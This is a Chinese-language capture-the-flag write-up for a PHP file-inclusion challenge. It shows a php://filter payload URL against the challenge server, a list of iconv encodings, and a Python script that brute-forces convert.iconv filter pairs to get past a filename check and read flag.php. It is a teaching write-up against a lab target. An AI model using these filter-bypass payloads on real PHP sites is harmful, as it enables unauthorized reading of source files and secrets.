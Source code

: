 # 攻防世界file-include之伪协议绕过
- 关键词 php伪协议绕过
## 1.题目描述
![3faf8d1aea4f2bdc26b4f6453b2d65ce.png](../_resources/3faf8d1aea4f2bdc26b4f6453b2d65ce.png)
直接尝试伪协议
`http://61.147.171.105:51435/?filename=php://filter/read=convert.base64-encode/resource=flag.php
`
![bbe07cf0404b595cd8c7b81e4796b1d4.png](../_resources/bbe07cf0404b595cd8c7b81e4796b1d4.png)
发现不行，显然是check.php里面有校验
尝试找方法绕过

## 2.解题流程
百度filter绕过过滤的时候发现了一种"
转换过滤器"


## 3.php://filter的各种过滤器
- php://filter的各种过滤器 https://blog.csdn.net/qq_44657899/article/details/109300335


转换过滤器
```html
如同 string.* 过滤器，convert.* 过滤器的作用就和其名字一样。
转换过滤器是 PHP 5.0.0 添加的。对于指定过滤器的更多信息，请参考该函数的手册页。
https://www.php.net/manual/zh/filters.convert.php
在激活 iconv 的前提下可以使用 convert.iconv.* 压缩过滤器， 
等同于用 iconv() 处理所有的流数据。 该过滤器不支持参数，
但可使用输入/输出的编码名称，组成过滤器名称，
比如 convert.iconv.<input-encoding>.<output-encoding> 
或 convert.iconv.<input-encoding>/<output-encoding> 
（两种写法的语义都相同）。
```



常见的支持的字符编码有：
```python
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac（别名：MacJapanese）
SJIS-Mobile#DOCOMO（别名：SJIS-DOCOMO）
SJIS-Mobile#KDDI（别名：SJIS-KDDI）
SJIS-Mobile#SOFTBANK（别名：SJIS-SOFTBANK）
UTF-8-Mobile#DOCOMO（别名：UTF-8-DOCOMO）
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B（别名：UTF-8-KDDI）
UTF-8-Mobile#SOFTBANK（别名：UTF-8-SOFTBANK）
ISO-2022-JP-MOBILE#KDDI（别名：ISO-2022-JP-KDDI）
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1*
ISO-8859-2*
ISO-8859-3*
ISO-8859-4*
ISO-8859-5*
ISO-8859-6*
ISO-8859-7*
ISO-8859-8*
ISO-8859-9*
ISO-8859-10*
ISO-8859-13*
ISO-8859-14*
ISO-8859-15*
ISO-8859-16*
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES（别名：HTML）
7bit
8bit
EUC-CN*
CP936
GB18030
HZ
EUC-TW*
CP950
BIG-5*
EUC-KR*
UHC（别名：CP949）
ISO-2022-KR
Windows-1251（别名：CP1251）
Windows-1252（别名：CP1252）
CP866（别名：IBM866）
KOI8-R*
KOI8-U*
ArmSCII-8（别名：ArmSCII8）
```

----
可以爆破一下，上才艺：
```python
import requests

in_encodings = [
    'UCS-4*',
    'UCS-4BE',
    'UCS-4LE*',
    'UCS-2',
    'UCS-2BE',
    'UCS-2LE',
    'UTF-32*',
    'UTF-32BE*',
    'UTF-32LE*',
    'UTF-16*',
    'UTF-16BE*',
    'UTF-16LE*',
    'UTF-7',
    'UTF7-IMAP',
    'UTF-8*',
    'ASCII*',
    'EUC-JP*',
    'SJIS*',
    'eucJP-win*',
    'SJIS-win*',
    'ISO-2022-JP',
    'ISO-2022-JP-MS',
    'CP932',
    'CP51932',
    'SJIS-mac',
    'SJIS-Mobile#DOCOMO',
    'SJIS-Mobile#KDDI',
    'SJIS-Mobile#SOFTBANK',
    'UTF-8-Mobile#DOCOMO',
    'UTF-8-Mobile#KDDI-A',
    'UTF-8-Mobile#KDDI-B',
    'UTF-8-Mobile#SOFTBANK',
    'ISO-2022-JP-MOBILE#KDDI',
    'JIS',
    'JIS-ms',
    'CP50220',
    'CP50220raw',
    'CP50221',
    'CP50222',
    'ISO-8859-1*',
    'ISO-8859-2*',
    'ISO-8859-3*',
    'ISO-8859-4*',
    'ISO-8859-5*',
    'ISO-8859-6*',
    'ISO-8859-7*',
    'ISO-8859-8*',
    'ISO-8859-9*',
    'ISO-8859-10*',
    'ISO-8859-13*',
    'ISO-8859-14*',
    'ISO-8859-15*',
    'ISO-8859-16*',
    'byte2be',
    'byte2le',
    'byte4be',
    'byte4le',
    'BASE64',
    'HTML-ENTITIES',
    '7bit',
    '8bit',
    'EUC-CN*',
    'CP936',
    'GB18030',
    'HZ',
    'EUC-TW*',
    'CP950',
    'BIG-5*',
    'EUC-KR*',
    'UHC',
    'ISO-2022-KR',
    'Windows-1251',
    'Windows-1252',
    'CP866',
    'KOI8-R*',
    'KOI8-U*',
    'ArmSCII-8',
]

out_codings = in_encodings[:]

for inenc in in_encodings:
    for outenc in out_codings:
        url = 'http://61.147.171.105:51435/?filename=php://filter/convert.iconv.{}.{}/resource=flag.php'.format(inenc,outenc)
        res = requests.get(url)
        if "flag" in res.text:
            print("inenc is:{} , outenc is:{}",inenc,outenc)
            print(res.text)

```

结果为：
![4d1269966b37c3e49ed4522b61b71843.png](../_resources/4d1269966b37c3e49ed4522b61b71843.png)


